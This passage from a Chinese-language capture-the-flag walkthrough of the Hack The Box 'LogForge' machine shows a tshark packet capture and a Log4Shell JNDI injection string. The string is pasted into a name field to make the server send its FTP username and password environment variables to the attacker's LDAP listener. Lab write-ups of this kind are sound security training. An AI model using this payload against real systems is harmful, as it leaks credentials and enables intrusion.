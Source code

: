 如果您不熟悉 tshark，它是 Wireshark 的命令行版本。请看官方文档[这里](https://www.wireshark.org/docs/wsug_html_chunked/AppToolstshark.html)和[这个](https://hackertarget.com/tshark-tutorial-and-filter-examples/)给了我们几个例子来帮助理解如何使用它。

启动 tshark 来捕获网络上的流量，以备我们的流氓 LDAP 服务器响应它将从机器中接收的 JNDI 请求时使用:

```
┌──(root💀kali)-[~/htb/logforge]
└─# tshark -i tun0 -w capture-output.pcap             
Running as user "root" and group "root". This could be dangerous.
Capturing on 'tun0'
```

现在切换回盒子，启动 ftp 服务器，我们可以使用我们之前用来获取用户名和密码的 JNDI 字符串的变体:

```
${jndi:ldap://10.10.14.12:389/PENCER--USER:${env:ftp_user}:PASSWORD:${env:ftp_password}}
```

当 FTP 在机器上启动时，只需将它粘贴到名称字段中:

![](img/a2a307c1f5bf613f0c242994bb036f01.png)

利用 JNDI 漏洞暴露环境变量

那个 JNDI 字符串将像以前一样回调我们在端口 389 上的 Kali LDAP 服务器，这次它为 ftp_user 和 ftp_password 传递环境变量。当它们被传递给我们时，它们将被转换成这些变量的实际值，这样我们就可以看到它们是什么了。

切换回 tshark 和 ctrl-z 以停止捕获，然后我们可以读取 pcap 文件并过滤 tcp.port == 389 以查看 LDAP 流量:

![](img/dd2d9dde56f1c9cec7d78b223a2266a3.png)
